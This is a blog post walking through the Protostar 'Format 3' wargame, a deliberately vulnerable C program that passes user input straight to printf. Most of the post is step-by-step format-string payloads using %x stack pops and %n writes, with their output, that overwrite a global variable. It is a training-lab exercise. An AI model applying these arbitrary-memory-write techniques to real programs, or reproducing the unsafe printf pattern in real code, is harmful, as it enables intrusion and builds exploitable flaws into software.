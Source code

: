 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Format 3"
date: 2012-02-01T05:33:00-05:00
comments: true
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


Continuing in the String Format section, the next challenge we run across is [Format 3](http://exploit-exercises.com/protostar/format3). 

<!-- more -->

We're first given the following code: 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
 printf(string);
}

void vuln()
{
 char buffer[512];

 fgets(buffer, sizeof(buffer), stdin);

 printbuffer(buffer);

 if(target == 0x01025544) {
  printf("you have modified the target :)\n");
 } else {
  printf("target is %08x :(\n", target);
 }
}

int main(int argc, char **argv)
{
 vuln();
}
```

This seems to be just like Format 2, except that we have to modify all 8 bytes instead of just 2. 

The process is still pretty much the same.  We will first find the memory address of "target", to get that out of the way: 

```
user@protostar:/opt/protostar/bin$ objdump -t format3 | grep target
080496f4 g     O .bss   00000004              target
```

I tried spamming the format3 executable with 15 "%x", since the last couple challenges have been lower than the typical 150 I was doing. 

```
user@protostar:/opt/protostar/bin$ echo AAAA`perl -e 'print "%x."x15'` | ./format3
AAAA0.bffff5e0.b7fd7ff4.0.0.bffff7e8.804849d.bffff5e0.200.b7fd8420.bffff624.41414141.252e7825.78252e78.2e78252e.
target is 00000000 :(
```

It appears that we get our "41414141" at 12 bytes popped.  Let's verify: 

```
user@protostar:/opt/protostar/bin$ echo AAAA%x%x%x%x%x%x%x%x%x%x%x%x | ./format3
AAAA0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff62441414141
target is 00000000 :(
```

So let's try it with the memory address of "target" instead of "AAAA": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624
target is 00000041 :(
```

Awesome! It's overwriting properly.  Our last byte shows as "41", meaning that printf wrote 41 characters.  However for the vulnerable program, it needs to be "44", so let's just increase it a little. 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624
target is 00000044 :(
```

So it appears if I use "%11x" for one of the stack pops, it's just the right amount.  You can actually calculate this value using a calculator, but I've found myself usually just brute forcing it with multiple guesses. 

So let's work on the next 2 bytes. From several of the books and papers listed in the previous challenge, I found out how to handle this. You just start appending more data, with a junk buffer, and possibly some spacing, and it will continue in a similar fashion. You then just increment the byte you want to overwrite, going upwards in the memory space, so you don't overwrite the space you already wrote the first time. 

To feel out for how many stack pops we'd have to do, I experimented, and spammed an additional 15 after setting up the start of the next byte of "target": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKAAAAAAAA\xf5\x96\x04\x08" . "%x."x15'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKAAAAAAAA78257825.78257825.78257825.78257825.78257825.78313125.554a6e25.41414b4e.41414141.96f54141.78250804.2e78252e.252e7825.78252e78.2e78252e.
target is 00000044 :(
```

Now pay attention here. You'll see after 8 stack pops, you have "41414b4e.41414141".  The first byte has some junk from a previous memory address. Since we can only pass 4 "A"s, we'll need to buffer this a bit with additional junk bytes. To test that out, we can do: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJUAAAA\xf5\x96\x04\x08%x%x%x%x%x%x%x%x%x"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJUAAAA782578257825782578257825782578257825782578313125554a6e25554a4b4e41414141
target is 00000044 :(
```

Now if we just convert that final "%x" to a "%n", we'll overwrite the second memory address shown with the number of bytes printed. 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4e
target is 00008e44 :(
```

Awesome again! We overwrote the next 2 bytes!  But wait a minute.  It overwrote "8e", and we want to get "55".  There is nothing that we can add to "8e" to get "55", as it's larger.  We can't subtract, so this poses an issue.  However, there's nothing saying that we can't overwrite 4 bytes instead of just 2.  We could simply add to "8e" until we get "255", since the next 4 bytes needed are "0255".  I played around with some math, and found that I could do exactly that! 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4e
target is 00025544 :(
```

This is convenient for us, because now we don't have to do 4 separate overwrites, we can skip the third one, moving directly to the fourth.  For this last pair, we will need to write "01".  Off the bat, with such a low number, I knew that we'd have to do something similar, since there's no way we would ever be writing 0 characters in printf.  We would just have to raise it to "101", and the first "1" would get cut off into a virtual la-la land. 

Again, let's find the length of stack addresses to pop, by spamming 15 "%x": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%nJUNKAAAA" . "%x."x15'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4eJUNKAAAA78257825.78257825.78257825.34257825.25783336.4e554a6e.4141414b.2e782541.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.
target is 00025544 :(
```

This time we have 7 pops, and again the buffer is mis-aligned.  So let's test the 7 pops and fixing the buffer alignment: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%nJUNAAAA%x%x%x%x%x%x%x"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4eJUNAAAA78257825782578257825782534257825257833364e554a6e41414141
target is 00025544 :(
```

Removing one character from the 4-char word "JUNK" seemed to do the trick.  We are now showing "41414141" as the last word again. 

So let's switch the last "%x" to "%n", and the "AAAA" to our last memory address, and see what it outputs. 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%nJUN\xf7\x96\x04\x08%x%x%x%x%x%x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4eJUN78257825782578257825782534257825257833364e554a6e
target is 8c025544 :(
```

Alright, so it's giving "8c", and we need to get to "101".  That's roughly 117 bytes difference.  I started tinkering from there, and found that it needed 125 extra characters. 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%nJUN\xf7\x96\x04\x08%x%x%x%x%x%125x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4eJUN78257825782578257825782534257825257833364e554a6e
you have modified the target :)
```

Awesome! We actually were able to overwrite an arbitrary value in memory to a specific value of our desire.  Think of the implications of this.  I was solving it, and afterwards read about a very new string format vulnerability in "sudo".  More information can be read [here](http://www.sudo.ws/sudo/alerts/sudo_debug.html).  These are real-world applications, and these bugs are found in the wild.  It really blows my mind.

